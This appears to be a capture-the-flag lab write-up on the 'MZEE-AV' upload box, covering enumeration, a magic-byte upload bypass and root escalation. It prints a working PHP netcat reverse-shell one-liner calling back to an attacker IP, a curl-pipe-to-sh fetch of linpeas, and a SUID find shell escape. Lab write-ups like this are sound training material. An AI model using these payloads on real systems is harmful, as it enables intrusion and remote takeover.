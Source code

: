# CTF-200-02 (rough notes)

Initial port scan:

```
┌──(kali㉿kali)-[~/offsec/ctf-200-02]
└─$ nmap -v -Pn -p- -T4 ctf-200-02                             
...

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Service version fingerprinting:

```
┌──(kali㉿kali)-[~/offsec/ctf-200-02]
└─$ nmap -v -Pn -p 22,80 -A ctf-200-02
...

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: MZEE-AV - Check your files
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

This one is interesting... we never get just one possible target (the http server)...

The webserver itself doesn't give anything away... just gives us "MZEE-AV 2022".

![](./assets/80-mzeeav.png)

Enumerating the webserver for paths with `gobuster`:

```
┌──(kali㉿kali)-[~/offsec/ctf-200-02]
└─$ gobuster dir -u http://ctf-200-02/ -t 20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://ctf-200-02/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/upload               (Status: 301) [Size: 309] [--> http://ctf-200-02/upload/]
/backups              (Status: 301) [Size: 310] [--> http://ctf-200-02/backups/]
```

Still running, but checking those 2 out... the `/upload` path just serves the text "nothing to see here - try harder". The `/backups` path however, serves a directory with a zip file.

Inspecting the contents of the zip file, it is the entire `/var/www/html` contents, including the source code for this application.

Looking at the code it seems that all uploaded files are made available in the `/upload/$FILENAME` path.

Here's my first attempt at uploading a reverse shell and looking for it... the app changed the filename to `file.tmp` so I searched for it with that name:

![](./assets/first-attempt.png)

The reverse shell should work, we just need to figure out a way to keep the `.php` file extension so that the server executes it when we navigate there...

Diving deeper into the webserver's source code, it seems the uploaded files will be renamed to `file.tmp` unless the file contains certain bytes...

```
/* Check MagicBytes MZ PEFILE 4D5A*/
$F=fopen($tmp_location,"r");
$magic=fread($F,2);
fclose($F);
$magicbytes = strtoupper(substr(bin2hex($magic),0,4)); 
error_log(print_r("Magicbytes:" . $magicbytes, TRUE));

/* if its not a PEFILE block it - str_contains onlz php 8*/
//if ( ! (str_contains($magicbytes, '4D5A'))) {
if ( strpos($magicbytes, '4D5A') === false ) {
	echo "Error no valid PEFILE\n";
	error_log(print_r("No valid PEFILE", TRUE));
	error_log(print_r("MagicBytes:" . $magicbytes, TRUE));
	exit ();
}

rename($tmp_location, $location);
```

The code is reading the first 2 bytes of the file, then converting the ASCII from binary to hex, then checking that the hex matches `4D5A`...

This matches the ASCII characters `MZ` (see [ASCII table](https://condor.depaul.edu/sjost/it236/documents/ascii.htm))... so if I understand correctly our file needs to start with the ASCII `MZ` in order to retain its original file name...

Let's put that to the test. I change my reverse shell from 

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.172 80 >/tmp/f");?>
```

to

```
MZ<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.172 80 >/tmp/f");?>
```

I set up my local listener on port 80 where we will catch a shell if this works.

I try uploading it again.

This time I notice right away we kept our filename, and when I manually navigate to `/upload/mz-rshell.php` the page hangs (which might mean our reverse shell is running).

![](./assets/second-attempt.png)

I check my reverse shell and indeed, we are in:

```
┌──(kali㉿kali)-[~/Desktop/upload-me]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.172] from (UNKNOWN) [192.168.176.33] 49888
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

We find our first flag where we usually expect it (a user's home directory):

```
$ cd /home
$ ls
avuser
$ cd avuser
$ ls
local.txt
$ cat local.txt
53ace38835afa69a4a6ece4dca4405a7
```

We also learn about user `avuser`.

## Privilege Escalation

Time for LinPEAS!

Nothing resolved in this machine, so I download it to Kali and serve it over http in order to fetch it from the victim host.

```
www-data@mzeeav:/etc$ curl -L http://192.168.45.172:22/linpeas.sh | sh
```

That works. From the results the only promising finding really is an uknown SUID binary.

```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
strings Not Found
strace Not Found
---s--s--x 1 root root 304K Nov 14 00:04 /opt/fileS (Unknown SUID binary!)
```

I run that binary with the `--help` flag and I get the following help menu:

```
www-data@mzeeav:/opt$ ./fileS --help
./fileS --help
Usage: ./fileS [-H] [-L] [-P] [-Olevel] [-D debugopts] [path...] [expression]

default path is the current directory; default expression is -print
expression may consist of: operators, options, tests, and actions:
operators (decreasing precedence; -and is implicit where no others are given):
      ( EXPR )   ! EXPR   -not EXPR   EXPR1 -a EXPR2   EXPR1 -and EXPR2
      EXPR1 -o EXPR2   EXPR1 -or EXPR2   EXPR1 , EXPR2
positional options (always true): -daystart -follow -regextype

normal options (always true, specified before other expressions):
      -depth --help -maxdepth LEVELS -mindepth LEVELS -mount -noleaf
      --version -xdev -ignore_readdir_race -noignore_readdir_race
tests (N can be +N or -N or N): -amin N -anewer FILE -atime N -cmin N
      -cnewer FILE -ctime N -empty -false -fstype TYPE -gid N -group NAME
      -ilname PATTERN -iname PATTERN -inum N -iwholename PATTERN -iregex PATTERN
      -links N -lname PATTERN -mmin N -mtime N -name PATTERN -newer FILE
      -nouser -nogroup -path PATTERN -perm [-/]MODE -regex PATTERN
      -readable -writable -executable
      -wholename PATTERN -size N[bcwkMG] -true -type [bcdpflsD] -uid N
      -used N -user NAME -xtype [bcdpfls]      -context CONTEXT

actions: -delete -print0 -printf FORMAT -fprintf FILE FORMAT -print 
      -fprint0 FILE -fprint FILE -ls -fls FILE -prune -quit
      -exec COMMAND ; -exec COMMAND {} + -ok COMMAND ;
      -execdir COMMAND ; -execdir COMMAND {} + -okdir COMMAND ;

Valid arguments for -D:
exec, opt, rates, search, stat, time, tree, all, help
Use '-D help' for a description of the options, or see find(1)

Please see also the documentation at http://www.gnu.org/software/findutils/.
You can report (and track progress on fixing) bugs in the "./fileS"
program via the GNU findutils bug-reporting page at
https://savannah.gnu.org/bugs/?group=findutils or, if
you have no web access, by sending email to <bug-findutils@gnu.org>.
```

Following the [link in the help menu](https://www.gnu.org/software/findutils/) this looks like just a rename of the usual `find` binary.

Looking up [`find` in GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid) gives us a way to get a shell as root:

```
./find . -exec /bin/sh -p \; -quit
```

So we can probably do it with

```
./fileS . -exec /bin/sh -p \; -quit
```

Let's try:

```
www-data@mzeeav:/opt$ ./fileS . -exec /bin/sh -p \; -quit
./fileS . -exec /bin/sh -p \; -quit
# whoami
whoami
root
```

Success!

We find our proof in the usual location:

```
# cat /root/proof.txt
cat /root/proof.txt
2805186e1547d425c906192189086665
```
